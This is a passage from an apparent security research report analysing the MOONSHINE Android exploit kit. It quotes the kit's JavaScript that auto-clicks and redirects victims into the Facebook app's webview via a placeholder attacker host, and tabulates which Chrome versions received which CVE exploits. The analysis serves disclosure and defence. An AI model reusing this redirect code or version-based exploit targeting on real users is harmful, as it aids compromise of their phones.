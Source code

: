  $(function(){
   function clicksp(){
      $("#sp").trigger("click");
   }
   function jump(){
      document.location="http://[MoonshineSite]:5000/web/info?click=1&org=[URL]"
}
   setTimeout(clicksp, 200);
   setTimeout(jump, 1000);
});

</script>

<a href="fb://webview/?url=http://[MoonshineSite]:5000/web/info?org=[URL]">
<span id="sp"></span></a>


Figure 9: JavaScript attempts to force the URL to be opened in the Facebook app.

When the exploit URL was opened with an Android Facebook User-Agent header, MOONSHINE checked the header to see if the Chrome version was vulnerable to one of eight different Chrome exploits (Table 1), which are all fixed in the latest Chrome version. Four of the MOONSHINE exploits are clearly copied from working exploit code posted by security researchers on bug trackers or GitHub pages. In contrast to the iOS exploit architecture, the Android exploit and payload delivery was not encrypted with ECDH keys (or even HTTPS).
User Agent in Request
Exploit Returned
Chrome < 38
(None)
Chrome 39 – 40
Exploit #1: Appears to include a CVE-2016-1646 exploit published on Kai Kang’s Github account (@4B5F5F4B) of Tencent’s Xuanwu Lab.2
Chrome 41
(None)
Chrome 42 – 49
Exploit #1
Chrome 50
Exploit #2: Appears to be CVE-2016-5198, a bug publicly credited to Tencent’s Keen Security Lab via Trend Micro’s Zero Day Initiative and fixed in Chrome 54.0.2840.87. The author of the specific exploit used here is unknown, though there is substantial code overlap with Exploit #1.
Chrome 51 – 55
Exploit #3: Appears to be CVE-2017-5030, a bug publicly credited to security researcher Brendon Tiszka. The author of the specific exploit used here is unknown.
Chrome 56 – 58
Exploit #4: Appears to include a CVE-2017-5070 exploit published on Qixun Zhao’s Github account (@S0rryMybad) of Qihoo 360’s Vulcan Team.
Chrome 59 – 61
(None)
Chrome 62 – 63
Exploit #5: Appears to include a CVE-2018-6065 exploit published on the Google Chrome bug tracker by Mark Brand of Google Project Zero.
Chrome 64 – 67
(None)
Chrome 68 – 69
Exploit #6: Appears to be CVE-2018-17463, a bug publicly credited to security researcher Samuel Groß. The author of the specific exploit used here is unknown.
Chrome 70
Exploit #7: Appears to be CVE-2018-17480, a bug successfully exploited at the Tian Fu Cup PWN Contest. The bug is credited to Guang Gong (@oldfresher) of Qihoo 360’s Alpha Team, though the author of the specific exploit used here is unknown.
Chrome 71-73
Exploit #8: Appears to be CVE-2019-5825, a bug publicly credited to several researchers at Tencent’s Keen Security Lab. The specific exploit used here was written and published by Exodus Intelligence after they examined the git log for Chrome’s JavaScript engine, and found a vulnerability that had been fixed in source code, but whose patch had not yet shipped to Chrome users.
Table 1: Chrome Exploits used in MOONSHINE